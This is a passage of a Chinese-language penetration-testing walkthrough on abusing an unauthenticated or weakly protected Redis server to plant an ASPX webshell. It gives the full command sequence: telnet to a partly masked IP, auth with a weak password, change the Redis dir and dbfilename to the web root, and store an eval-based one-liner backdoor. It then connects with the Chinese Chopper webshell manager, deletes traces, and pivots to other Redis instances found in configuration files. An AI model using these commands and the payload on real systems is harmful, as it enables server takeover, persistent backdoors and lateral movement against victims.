 

：写入 webshell

测试 webshell 是否正常

在浏览器中输入对应写入文件的名字，如图5所示进行访问，出现类似：

“REDIS0006?webshell'a@H 搀???”则表明正确获取 webshell。



：测试 webshell 是否正常

获取 webshell

使用中国菜刀后门管理连接工具，成功获取该网站的 webshell。



图 6：获取 webshell

恢复原始设置

恢复 dir

config set dir dirname

恢复 dbfilename

config set dbfilename dbfilename

删除 webshell

del webshell

刷新数据库

flushdb

完整命令总结

telnet 1**.**.**.35 3357

auth 123456

config get dir

config get dbfilename

config set dir E:/www/

config set dbfilename redis2.aspx

set a "<%@ Page Language="J"%><%eval(Request.Item["c"],"unsafe");%>"

save

get a

查看 Redis 配置 conf 文件

通过 webshell，在其对应目录中发现还存在其他地址的 Redis，通过相同方法可以再次进行渗透，如图 7 所示，可以看到路径、端口、密码等信息。



查看 Redis 其配置文件
